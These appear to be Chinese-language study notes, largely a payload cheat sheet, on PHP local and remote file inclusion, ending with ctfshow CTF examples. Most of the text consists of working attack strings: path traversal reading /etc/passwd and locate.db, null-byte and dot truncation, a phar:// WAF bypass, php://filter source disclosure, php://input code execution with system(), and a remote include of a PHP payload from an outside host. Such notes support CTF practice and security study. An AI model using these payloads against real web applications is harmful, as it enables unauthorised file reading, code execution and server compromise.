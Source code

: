 **%00截断包含**
```
?p=../hanguo/test.php%00
```

**列目录**
条件：magic_quotes_gpc=off
```
?file=../../../../../../../../../var/www/accounts/%00
```

**路径遍历**
```
?file=../../../../../../../../../var/lib/locate.db
```

**路径截断**
```
?file=../../../../../../../../../etc/passwd/././...超级多./
```

**点号截断（windows下）**
```
?file=../../../../../../../../../etc/passwd……………. …|
```

**利用phar://协议绕过waf检测**

版本要求：php 5.3.0 起  
**利用php伪协议读取php文件内容**
data要求：  
php5.2以后  
allow_url_fopen ：on  
allow_url_include：on

poc
```
利用方法：index.php?file=phar://test.zip/test.txtindex.php?file=phar://test.xxx/test.txt
```


### ctfshow例题

#黑盒利用-VULWEB-有无包含文件

http://testphp.vulnweb.com/showimage.php?file=index.php

#白盒利用-CTFSHOW-伪协议玩法

https://ctf.show/challenges

#### 78关-php&http协议

```
	payload: ?file=php://filter/read=convert.base64-encode/resource=flag.php

	payload: ?file=php://input post:<?php system('tac flag.php');?>

	payload: ?file=http://www.xiaodi8.com/1.txt 1.txt:<?php system('tac flag.php');?>
```
